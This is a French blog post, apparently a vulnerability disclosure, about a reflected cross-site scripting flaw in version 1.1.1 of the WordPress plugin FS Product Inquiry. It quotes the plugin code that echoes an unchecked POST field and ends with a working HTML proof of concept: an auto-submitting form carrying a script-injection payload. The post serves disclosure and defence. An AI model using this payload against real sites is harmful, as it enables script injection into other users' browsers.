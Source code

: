 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress FS Product Inquiry"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [FS Product Inquiry](https://wordpress.org/plugins/fs-product-inquiry/) se présente de cette façon :

> FS Product Inquiry is a WordPress product inquiry plugin. This plugin is useful for product inquiry and also store all the data in the database with email so we can use these emails as subscribe or for other product marketing purposes.

La version testée est la 1.1.1 et date d'il y a 3 ans au moment de ces lignes.

## La vulnérabilité

En plus de [la faille SQL aussi mentionnée sur ce blog]({% link _posts/2023-12-18-Injection-SQL-dans-le-plugin-Wordpress-FS-Product-Inquiry.md %}), le plugin est aussi vulnérable à une faille XSS.

C'est là encore lié à la fonction `fspi_show_products_list` dans `includes/class-fs-products.php`.

Cette fonction inclus un template `fspi-show-product-list.php` :

```php
/*
* Define function to show product list
*/
function fs_get_all_products(){
    /*
    * Add filter to update wp_query for product search
    */
    wp_enqueue_script('jquery');

    add_filter( 'posts_where', array($this,'fspi_post_title_filter'), 10, 2 );
    $paged = (get_query_var('paged')) ? get_query_var('paged') : 1;
    $product_name = !empty($_POST['product_name'])?trim(sanitize_text_field($_POST['product_name'])):'';
    $args = array( 'post_type' => 'fspi-products', 'posts_per_page' => 9, 'paged' => $paged, 'fs_search_post_title' => $product_name);
    $loop = new WP_Query($args);
    /*
    * Remove filter to update wp_query for product search
    */
    remove_filter( 'posts_where', array($this,'fspi_post_title_filter'), 10 );
    include FSPI_BASE_DIR.'/templates/public/fspi-show-product-list.php';
}
```

Le template lui-même inclus un autre template :

```php
<!-- Modal body -->
<div class="modal-body">
  <button type="button" class="close" data-dismiss="modal">&times;</button>
 <?php include FSPI_BASE_DIR.'templates/public/fspi-show-inquiry-form.php'; ?>
</div>
```

C'est dans ce dernier qu'on trouve un simple `echo` d'une variable non vérifiée :

```php
<input type="hidden" name="_fs_product_id" value="<?php if(!empty($_POST['_fs_product_id'])){echo $_POST['_fs_product_id'];} ?>">
```

PoC :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/?page_id=5">
        <input type="hidden" name="_fs_product_id" value="&quot;&gt;&lt;ScRiPt&gt;alert(/XSS/)&lt;/sCrIpT&gt;" />
        <input type="hidden" name="_fs_name" value="default" />
        <input type="hidden" name="_fs_email" value="wapiti2021@mailinator.com" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
